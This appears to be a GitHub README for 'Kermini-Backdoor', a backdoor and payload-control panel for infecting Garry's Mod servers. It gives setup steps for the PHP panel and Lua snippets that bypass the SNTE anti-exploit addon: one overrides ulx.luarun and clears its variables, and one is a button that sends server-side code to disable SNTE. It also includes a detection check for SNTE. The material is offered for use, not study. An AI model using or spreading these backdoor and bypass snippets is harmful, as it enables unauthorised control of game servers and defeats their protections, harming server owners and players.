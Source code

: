 # Kermini-Backdoor-Gmod
Kermini-Backdoor : a gmod simple backdoor System Initially, I created this for my personal use but I am not an egoist, so keep going and have fun | Do not forget to configure it correctly

backdoor.lua : The file that contain the code to infect servers |Can sometimes spam errors when a player join

# Installation Process | Files

open main.php and change Database settings and the others options if you want

open class/Config.php and change Database settings

open deletepayload.php and change Database settings

open send_payload_update.php and change Database settings

open install folder and change Database settings

open phpMyAdmin and execute Kermini-s-q-l.sql 

open www.[DOMAIN].com/install and create an account |Delete this folder after this step

Here you go ! Enjoy

# Hey i found an exploit related to the panel !

No problem, just contact me and tell me what is going wrong, i will do my best to resolve it.

# SNTE
https://steamcommunity.com/sharedfiles/filedetails/?id=1308262997

This addon can sometimes block your Payloads so try bypasses 

timer.Simple(0.5, function()
    function ulx.luarun(calling_ply, command)
        print("ez snte")
    end
    bad_net = ""
    local bad_net = ""
    local global_nets = ""
    global_nets = ""
end)
___
local Macro = vgui.Create("DButton", BackGround)
Macro:SetPos(255, 160)
Macro:SetParent(Controller)
Macro:SetTextColor(Color(255, 255, 255, 255))
Macro:SetSize(200, 25)
Macro:SetText("BREAK SNTE")
Macro.Paint = function()
    surface.SetDrawColor(50, 50, 50 , 200)
    surface.DrawRect(0, 0, Macro:GetWide(), Macro:GetTall())
    surface.SetDrawColor(0, 0, 0, 200)
    surface.DrawOutlinedRect(0, 0, Macro:GetWide(), Macro:GetTall())
end
___
Macro.DoClick = function()
    net.Start(netKey)
        net.WriteString([[
            _G.SNTE = function() end
        ]])
        net.WriteBit(1)
    net.SendToServer()
    chat.AddText(Color(255,204,153), "亗ADM TEAM", Color(255, 255, 255), "LANCER !" )
    SploitNotify("LANCER")
    surface.PlaySound("buttons/button15.wav")
end

# How to detect SNTE ON A SERVER :

local isSNTE = false
if ConVarExists("snte_dupefix") or file.Exists( "autorun/server/snte_source.lua", "LUA" ) == true then
    isSNTE = true
end

if isSNTE then
    chat.AddText(Color(26, 48, 219), "[KERMINI]", Color(35, 142, 219), " SNTE DETECTED")
end

# The code is telling me something 

yep i can code in php but im not a pro designer so i used
- https://github.com/bcool/ULX-Global-Ban/tree/master/WebPage/TCB-Theme-master (For the display)
- And somthing cold Gbackdoor (I know there is exploits related to this panel, i made a different code for some parts) 

ps : gbackdoor used only for server adding/update | Payload system have been a little bit modified

